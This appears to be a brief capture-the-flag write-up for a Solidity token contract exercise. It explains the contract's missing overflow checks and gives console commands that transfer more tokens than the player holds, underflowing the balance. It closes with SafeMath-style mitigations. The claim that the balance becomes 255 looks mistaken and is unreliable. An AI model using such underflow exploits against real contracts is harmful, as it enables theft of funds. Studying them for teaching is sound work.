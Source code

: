 This contract is susceptible to overflow and underflow attacks.

There is no condition/safemath functions/check before performing mathematical calculations.

Therefore to expoit this contract, I need to transfer more tokens than I have.

Find out how many tokens I have. 
```await contract.balanceOf(player)```

I have 20. So transfer 21 or more tokens to any address.
```await contract.transfer('0x69F1977310B0c02248D631671AF7211E2e175937', 21)```

Check balance again as the underflow should set my balance to 255.
```await contract.balanceOf(player)```

Easy to avoid over/underflow exploits by using a condition such as:
```
if(a + c > a) {
  a = a + c;
}
```
Or OpenZeppelin SafeMath lib:
```
a = a.add(c);
```